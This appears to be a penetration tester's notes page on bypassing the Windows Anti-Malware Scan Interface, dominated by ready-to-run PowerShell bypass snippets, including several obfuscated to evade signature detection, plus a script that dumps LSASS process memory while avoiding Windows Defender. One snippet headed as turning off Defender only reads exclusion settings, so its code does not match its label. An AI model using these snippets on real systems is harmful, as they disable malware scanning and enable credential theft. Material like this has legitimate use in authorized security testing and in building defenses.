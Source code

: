 # AMSI Bypassing

## Introduction

For basic information about [[ASMI]], but for actual [[AMSI-Exploitation]] contains a list of code snippets to exploit this article will be here just as a hub and overview of techniques - possibly restructure in the future. Anti-Malware Scan Interface is a general scripting language security feature that will allow any applications or services to integrate into antimalware products. It scan payloads and script before execution inside of the runtime.

The AMSI feature is integrated into these components of Windows 10.

-   User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
-   PowerShell (scripts, interactive use, and dynamic code evaluation)
-   Windows Script Host (wscript.exe and cscript.exe)
-   JavaScript and VBScript
-   Office VBA macros

AMSI Architecture
![](amsi7archi.jpg)

AMSI is instrumented in both System.Management.Automation.dll and within the CLR itself. When inside the CLR, it is assumed that Defender is already being instrumented; this means AMSI will only be called when loaded from memory.

Bypassing 

Test with: 
[amsi.fail](https://amsi.fail/) *"AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before being obfuscated. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."*



## Bypasses

One enumeration method for bypassing is compare target versions to bypass with [InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master), which is a GitHub repository of PowerShell with security features removed. [S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  is represented here with either code or  local links to big code blocks or Cheatsheats with function calls from the framework.

[[Nishang-Helpsheet]] - `Invoke-Amsibypass` will use  publicly known methods to bypass/avoid AMSI.

#### Patching asmi.dll

The bypasses that will identify DLL locations and modify memory permissions to return undetected AMSI response values.

Patching the  asmi.dll - [[AMSI-ScanBuffer-Patch]] - Egghunter with blog post: [https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)

ScanBuffer patch - [[AMSI-Buffer-Patch-In-memory]]
ScanBuffer bypass - [Rasta-Mouse](https://github.com/rasta-mouse/AmsiScanBufferBypass)

#### Forcing errors

Force an error
```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

#### Graeber Reflection
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) utilizes Powershell to set the response value of ASMI to  `$null`

Matt Graebers Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Matt Graebers Reflection method with WMF5 autologging bypass
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

Matt Graebers second Reflection method
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

If patched, just change up the strings/variables. 
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
Requires Credit!

If patched, just change up the strings/variables. 
```powershell
$A="5492868772801748688168747280728187173688878280688776"
$B="8281173680867656877679866880867644817687416876797271"
function C($n, $m){
[string]($n..$m|%{[char][int](29+($A+$B).
    substring(($_*2),2))})-replace " "}
$k=C 0 37; $r=C 38 51
$a=[Ref].Assembly.GetType($k)
$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
```
@TihanyiNorbert (Based on the original work of Matt Graeber @mattifestation script)

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
[Buaq.net](https://buaq.net/go-98295.html)

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```



#### LSASS Dumping without triggering Windows Defender
```powershell
$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$PDP = Join-Path $S $PF
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()
```



#### Elevated Required

Turning off Windows Defender
```powershell
# Requires Elevation
Get-MpPreference | Select-Object -Property ExclusionPath
```

#### PowerShell downgrading





## References


[pentestlaboratories article](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation - How AMSI Helps](https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
[ASMI Result Documentation](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master)
[S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
[Buaq.net](https://buaq.net/go-98295.html)
[Sinfulz Cheatsheet](https://github.com/sinfulz/JustEvadeBro)